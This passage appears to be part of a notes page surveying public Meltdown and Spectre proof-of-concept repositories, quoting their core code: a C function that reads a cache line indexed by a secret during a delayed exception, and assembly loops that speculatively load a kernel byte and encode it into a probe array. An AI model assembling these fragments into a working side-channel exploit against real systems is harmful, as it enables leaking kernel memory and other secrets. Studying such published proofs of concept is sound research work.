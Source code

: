 ```c
int speculative_transfer(int div, uint8_t secret)
{
    uint8_t data = 0;
    int res = 0;

    // rise_exception after delay
    int a=div;
    for(int i=0;i<100000;i++)
        a+=i;
    data = a / div;

    // speculative
    res += cache[CACHE_LINE_SIZE*secret];

    return res + data;
}
```

## 3.3 Frichetten/meltdown-spectre-poc
* Link: [https://github.com/Frichetten/meltdown-spectre-poc](https://github.com/Frichetten/meltdown-spectre-poc)

```ASM
asm __volatile__ (
           ".global __speculative_byte_load_exit \n\t"
           "%=:                              \n"
           "xorq %%rax, %%rax                \n"
           "movb (%[ptr]), %%al              \n"
           "shlq $0xc, %%rax                 \n"
           "jz %=b                           \n"
           "movq (%[buf], %%rax, 1), %%rbx   \n"
           "__speculative_byte_load_exit:     \n"
           "nop                               \n"
           :
           :  [ptr] "r" (ptr), [buf] "r" (buf)
           :  "%rax", "%rbx");
```

## 3.4 paboldin/meltdown-exploit
* Link: [https://github.com/paboldin/meltdown-exploit](https://github.com/paboldin/meltdown-exploit)
* Fork: [Digivill/Spectre-MeltDown-](https://github.com/Digivill/Spectre-MeltDown-)
* TODO: ASM

```asm
; rcx = kernel address
; rbx = probe array
retry:
mov al, byte [rcx]
shl rax, 0xc
jz retry
mov rbx, qword [rbx + rax]
```
